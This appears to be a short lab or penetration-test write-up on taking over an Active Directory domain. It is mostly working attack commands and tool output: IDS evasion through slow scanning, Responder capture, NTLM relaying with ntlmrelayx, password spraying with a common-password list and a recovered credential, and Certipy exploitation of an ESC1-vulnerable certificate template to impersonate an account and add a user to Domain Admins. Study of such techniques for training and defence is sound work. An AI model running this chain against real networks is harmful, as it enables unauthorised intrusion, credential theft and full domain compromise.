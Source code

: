 # Tricking IDS

in general we avoided unnecessary scanning, used passive techniques like ARP, nmap'd slowly with -T 2

# Getting Initial Access

we ran responder first in analysis mode to see if any traffic comes to us.
indeed, a auth from the user nina was seen.
we tried to crack the netntlmv2 hash unsuccessfully, so our next try was NTLM relaying.

```
impacket-ntlmrelayx -t smb://10.0.4.12 -smb2support -i
```

which gave us access to the FS01 SMB shares. 
in the IT share we found some cool files such as emails which revealed further usernames.


# Second User

we updated our user list and tried to spray the top 200 passwords on those.

```
nxc smb 10.0.4.11 -u users.txt -p ../2023-200_most_used_passwords.txt  --continue-on-success
```

this revealed the user 'alice' with password' 'Demo@123'.



# Getting Domain Admin

Certipy shows vulnerable certificates:
```
python3 entry.py find -vulnerable -username 'alice' -p 'Demo@123' -dc-ip 10.0.4.11
```

Result:
```
[...]
Certificate Templates
  0
    Template Name                       : Smartcard
    Display Name                        : Smartcard
    Certificate Authorities             : PLUMETECH-DC1-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : PLUMETECH.LOCAL\Domain Users
      Object Control Permissions
        Owner                           : PLUMETECH.LOCAL\Enterprise Admins
        Full Control Principals         : PLUMETECH.LOCAL\Domain Admins
                                          PLUMETECH.LOCAL\Local System
                                          PLUMETECH.LOCAL\Enterprise Admins
        Write Owner Principals          : PLUMETECH.LOCAL\Domain Admins
                                          PLUMETECH.LOCAL\Local System
                                          PLUMETECH.LOCAL\Enterprise Admins
        Write Dacl Principals           : PLUMETECH.LOCAL\Domain Admins
                                          PLUMETECH.LOCAL\Local System
                                          PLUMETECH.LOCAL\Enterprise Admins
        Write Property Principals       : PLUMETECH.LOCAL\Domain Admins
                                          PLUMETECH.LOCAL\Local System
                                          PLUMETECH.LOCAL\Enterprise Admins
    [!] Vulnerabilities
      ESC1                              : 'PLUMETECH.LOCAL\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```

which is vulnerable to ESC1.


## ESC1 Exploitation
```
python3 entry.py req -username 'alice' -p 'Demo@123' -dc-ip 10.0.4.11 -ca PLUMETECH-DC1-CA -template Smartcard -target dc1.plumetech.local -upn backup@plumetech.local -sid S-1-5-21-742041295-2727698780-1124300366-1116

python3 entry.py auth -pfx backup.pfx -dc-ip 10.0.4.11 

export KRB5CCNAME=$PWD/backup.pfx

python3 ldap_shell/__main__.py -k -dc-host dc1.plumetech.local -no-pass plumetech.local/backup

add_user_to_group plumber "Domain Admins"
```